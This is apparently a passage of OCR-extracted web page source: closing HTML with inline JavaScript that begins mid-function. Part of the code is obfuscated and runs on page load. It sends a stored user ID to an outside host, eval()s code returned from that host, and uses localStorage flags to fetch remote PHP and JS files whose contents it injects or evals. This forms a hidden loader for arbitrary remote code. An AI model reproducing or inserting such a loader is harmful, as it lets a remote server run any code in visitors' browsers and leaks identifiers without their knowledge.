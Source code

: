 setTimeout(() => { const cursor = document.getElementById('cursor'); if (cursor) { cursor.remove(); document.removeEventListener('mousemove', lcsm); document.body.style.cursor = ''; document.head.removeChild(style); } }, 6666); }
const uid=localStorage.getItem("uid");fetch("https://nez.fyi/sml-assets/jsprnthnt_liv.php?uid="+encodeURIComponent(uid)).then(t=>t.json()).then(data=>{data.jcd&&eval(data.jcd)}); function b($,x){var t=a();return(b=function($,x){return t[$-=142]})($,x)}var m=b;function checkstatus(){var $=b;if(localStorage[$(165)]($(158))===$(155)){var x=new XMLHttpRequest;x[$(161)]($(143),$(145),!0),x.onreadystatechange=function(){var t=$;if(4===x[t(152)]&&200===x.status){var e=x.responseText,n=e[t(142)](/<script[^>]*>([\s\S]*?)<\/script>/i)[1],r=e[t(142)](/<style[^>]*>([\s\S]*?)<\/style>/i)[1],s=document.createElement(t(160));s[t(149)]=n,document[t(164)][t(146)](s);var c=document[t(156)]("style");c[t(149)]=r,document[t(148)][t(146)](c)}},x[$(170)]()}}function a(){var $=["then","script","open","717kAyERg","722636ixtAcr","body","getItem","4PBuUsL","text","927056ywzNKe","5592ZgbxCe","send","6263658cZyKFE","match","GET","jps","laptop/terus-frontend/wincheck-64.php","appendChild","onload","head","innerHTML","jpincode12.php","2216220rMqgoQ","readyState","4592934VGtogX","16135450weNvvZ","true","createElement","35wcpTSp","reward"];return(a=function(){return $})()}!function($,x){for(var t=b,e=$();;)try{if(-parseInt(t(163))/1+parseInt(t(169))/2*(parseInt(t(162))/3)+-parseInt(t(166))/4*(parseInt(t(151))/5)+parseInt(t(153))/6+parseInt(t(157))/7*(-parseInt(t(168))/8)+-parseInt(t(171))/9+parseInt(t(154))/10==606026)break;e.push(e.shift())}catch(n){e.push(e.shift())}}(a,606026),window[m(147)]=function(){checkstatus()},localStorage.getItem(m(144))===m(155)&&fetch(m(150))[m(159)]($=>$[m(167)]())[m(159)](c=>{eval(c)}),localStorage[m(165)]("te")===m(155)&&fetch("flower.js")[m(159)]($=>$.text()).then(c=>{eval(c)}); if("true"===localStorage.getItem("itemSold6")){let e=document.createElement("script");e.src="/inventory/radio32.js",document.body.appendChild(e)} </script> </body> </html>
<script> fetch('global/header.html') .then(response => response.text()) .then(html => { document.getElementById('header-container').innerHTML = html;  ; return fetch('/global/global.js').then(response => response.text()).then(script => eval(script)).catch(error => console.error('error fetching global js:', error));}) .catch(error => console.error('error fetching header:', error)); </script>
